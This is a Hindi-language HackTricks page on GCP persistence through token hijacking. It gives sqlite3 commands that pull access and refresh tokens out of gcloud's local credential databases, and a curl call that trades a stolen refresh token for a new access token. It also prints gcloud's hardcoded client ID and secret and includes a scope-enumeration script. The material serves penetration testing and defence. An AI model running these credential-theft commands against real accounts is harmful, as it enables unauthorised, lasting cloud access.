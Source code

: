 # GCP - Non-svc Persistance

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

ये तकनीकें उपयोगी हैं जब, किसी न किसी तरह, आपने कुछ GCP क्रेडेंशियल्स या GCP वातावरण में चल रही मशीन को समझौता कर लिया है।

## Token Hijacking

### Authenticated User Tokens

किसी उपयोगकर्ता का **वर्तमान टोकन** प्राप्त करने के लिए आप चला सकते हैं: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

इस पृष्ठ पर देखें कि **gcloud का उपयोग करके इस टोकन का सीधे उपयोग कैसे करें**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**नया एक्सेस टोकन उत्पन्न करने** के लिए विवरण प्राप्त करने के लिए चलाएँ:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

यह भी संभव है कि **`$HOME/.config/gcloud/application_default_credentials.json`** और **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** में रिफ्रेश टोकन पाए जाएं।

**रिफ्रेश टोकन**, क्लाइंट आईडी, और क्लाइंट सीक्रेट के साथ एक नया रिफ्रेश किया गया एक्सेस टोकन प्राप्त करने के लिए चलाएँ:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

**एडमिन** > **सुरक्षा** > **गूगल क्लाउड सत्र नियंत्रण** में रिफ्रेश टोकन की वैधता को प्रबंधित किया जा सकता है, और डिफ़ॉल्ट रूप से इसे 16 घंटे पर सेट किया गया है, हालांकि इसे कभी समाप्त न होने के लिए सेट किया जा सकता है:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### प्रमाणीकरण प्रवाह

जब `gcloud auth login` जैसे कुछ का उपयोग करते समय प्रमाणीकरण प्रवाह एक ब्राउज़र में एक प्रॉम्प्ट खोलेगा और सभी स्कोप को स्वीकार करने के बाद ब्राउज़र इस तरह का एक अनुरोध उपकरण द्वारा खोले गए http पोर्ट पर भेजेगा:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
फिर, gcloud कुछ हार्डकोडेड `client_id` (`32555940559.apps.googleusercontent.com`) और **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) के साथ स्थिति और कोड का उपयोग करके **अंतिम रिफ्रेश टोकन डेटा** प्राप्त करेगा।

{% hint style="danger" %}
ध्यान दें कि localhost के साथ संचार HTTP में है, इसलिए डेटा को इंटरसेप्ट करना संभव है ताकि एक रिफ्रेश टोकन प्राप्त किया जा सके, हालाँकि यह डेटा केवल 1 बार के लिए मान्य है, इसलिए यह बेकार होगा, इसे फ़ाइल से रिफ्रेश टोकन पढ़ना आसान है।
{% endhint %}

### OAuth Scopes

आप सभी Google स्कोप [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) पर पा सकते हैं या उन्हें निष्पादित करके प्राप्त कर सकते हैं:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

इस स्क्रिप्ट के साथ यह देखना संभव है कि **`gcloud`** द्वारा प्रमाणीकरण के लिए उपयोग किया जाने वाला एप्लिकेशन कौन से स्कोप का समर्थन कर सकता है:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
इसके निष्पादन के बाद यह जांचा गया कि यह ऐप इन स्कोप का समर्थन करता है:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
यह देखना दिलचस्प है कि यह ऐप **`drive`** स्कोप का समर्थन करता है, जो एक उपयोगकर्ता को GCP से Workspace में बढ़ाने की अनुमति दे सकता है यदि एक हमलावर उपयोगकर्ता को इस स्कोप के साथ एक टोकन उत्पन्न करने के लिए मजबूर करने में सफल हो जाता है।

**यहां देखें कि कैसे** [**इसका दुरुपयोग करें**](../gcp-to-workspace-pivoting/#abusing-gcloud)**।**

### सेवा खाते

जैसे कि प्रमाणित उपयोगकर्ताओं के साथ, यदि आप एक सेवा खाते की **निजी कुंजी फ़ाइल को समझौता** करने में सफल होते हैं, तो आप इसे **आम तौर पर जितना चाहें उतना एक्सेस कर सकेंगे**।\
हालांकि, यदि आप एक सेवा खाते का **OAuth टोकन** चुरा लेते हैं, तो यह और भी दिलचस्प हो सकता है, क्योंकि, भले ही डिफ़ॉल्ट रूप से ये टोकन केवल एक घंटे के लिए उपयोगी होते हैं, यदि **पीड़ित निजी एपीआई कुंजी को हटा देता है, तो OAuh टोकन तब भी मान्य रहेगा जब तक कि यह समाप्त नहीं हो जाता**।

### मेटाडेटा

स्पष्ट रूप से, जब तक आप GCP वातावरण में चल रही मशीन के अंदर हैं, आप उस मशीन से जुड़े सेवा खाते को **मेटाडेटा एंडपॉइंट से संपर्क करके एक्सेस कर सकेंगे** (ध्यान दें कि इस एंडपॉइंट में आप जो Oauth टोकन एक्सेस कर सकते हैं, वे आमतौर पर स्कोप द्वारा प्रतिबंधित होते हैं)।

### सुधार

इन तकनीकों के लिए कुछ सुधार [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) में समझाए गए हैं।

## संदर्भ

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो करें** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**।**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
